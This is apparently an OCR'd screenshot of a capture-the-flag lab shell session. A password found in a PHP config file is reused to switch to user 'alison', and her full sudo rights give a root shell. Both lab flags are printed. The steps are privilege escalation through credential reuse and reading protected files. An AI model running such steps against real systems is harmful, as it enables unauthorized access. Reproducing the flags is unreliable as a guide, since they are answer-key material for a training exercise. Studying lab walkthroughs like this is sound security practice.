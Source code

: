 ```bash

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
?>postgres@ubuntu:/var/www/html$ su alison
su alison
Password: mysudopassword

su: Authentication failure
postgres@ubuntu:/var/www/html$ ls
ls
config.php  poster
postgres@ubuntu:/var/www/html$ whoami
whoami
postgres
postgres@ubuntu:/var/www/html$ su alison
su alison
Password: mysudopassword

su: Authentication failure
postgres@ubuntu:/var/www/html$ su alison
su alison
Password: p4ssw0rdS3cur3!#

alison@ubuntu:/var/www/html$ cat /home/alison/user.txt
cat /home/alison/user.txt
THM{postgresql_fa1l_conf1gurat1on}
alison@ubuntu:/var/www/html$ sudo -l
sudo -l
[sudo] password for alison: p4ssw0rdS3cur3!#

Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
alison@ubuntu:/var/www/html$ sudo -s
sudo -s
root@ubuntu:/var/www/html# cd /root
cd /root
root@ubuntu:/root# ls
ls
root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```
